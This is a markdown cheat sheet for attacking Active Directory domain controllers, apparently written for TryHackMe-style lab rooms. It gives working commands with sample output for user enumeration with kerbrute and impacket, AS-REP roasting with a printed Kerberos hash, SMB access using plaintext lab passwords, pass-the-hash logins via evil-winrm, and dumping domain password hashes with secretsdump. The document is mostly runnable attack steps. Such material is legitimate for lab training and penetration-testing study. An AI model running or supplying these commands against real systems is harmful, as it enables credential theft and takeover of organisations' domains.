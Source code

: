 # Domain Controllers
## Basics 
- Find the NETBIOS Domain Name
````
nbtscan -v 10.10.8.1-254
````
- Should also be in nmap output
````
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   DNS_Tree_Name: spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-08-20T18:00:52+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
````
- Add to `/etc/hosts`
## Kerbrute
- Find valid users
- Example Syntax
````
kerbrute -users userlist.txt -domain spookysec.local -dc-ip 10.10.55.114
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Valid user => james
[*] Valid user => svc-admin [NOT PREAUTH]
[*] Valid user => James
[*] Valid user => robin
[*] Blocked/Disabled user => guest
[*] Valid user => darkstar
````
## Impacket
- Location:
````
/usr/share/doc/python3-impacket/examples/
````
- If we have IPC$ access without authentication we are able to list the domain users as anonymous
````
python3 lookupsid.py anonymous@10.10.10.10 | tee users.txt
````
- Isolate the users with `SidTypeUser`
````
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
````
- Now, let’s use `GetNPUsers.py` to find users without Kerberos pre-authentication:
````
python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -userfile usernames.txt
````
- Should retrive a hash if the command is sucessful
````
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:692e76f70a8772c46ed94e73130460c8$713b0693498fdaff68642d78e713ca965e5007d5d864ca727289930783fe28f00bf79fef8126c4722d09cafc72ec60e940d31297591f67ce049030cb531ddd9c83cd37796fbf414b830a7c90fe26d2c45d6f2b624cd4413c58e3dbb77519dd69906248f8db27b1974b880a826003e562e25d9de9e4cb7cfa85c1de954761053b7d51a455530001348b46909f91f4e80bae7374071339f0920bb3e2ad95169d20f05d0cd586882facb63c058072dacb7ec8ddbcd9297331e1f6fb6d844ea7967659bee38fde4431af9f9608e9adcb38cb6e20e72bcf61c524f480b5ea2530e16dbeed2272855a61a05c03e84653aa1a3bbbd5ece06633
````
- Crack the hash with `john`
### SMB Samba authenticated access
````
smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON
smbmap -u svc-admin -p management2005 -H 10.10.248.93
smbclient -U spookysec.local/svc-admin \\\\10.10.248.93\\backup 
````

- Cat out files with `smb`
````
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

        8540159 blocks of size 4096. 4318542 blocks available
smb: \> get ResetPassword.vbs -
````
### evil-winrm
- Connect with pass the hash attack
````
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
````
### Dump hashes
- Use `secretsdump.py` with impacket
- This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer.
````
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.248.93
````
![spooky](https://user-images.githubusercontent.com/75596877/130284812-511a8141-5917-4954-8c29-e623c1edce36.png)

#### Another Cheatsheet
- https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a







































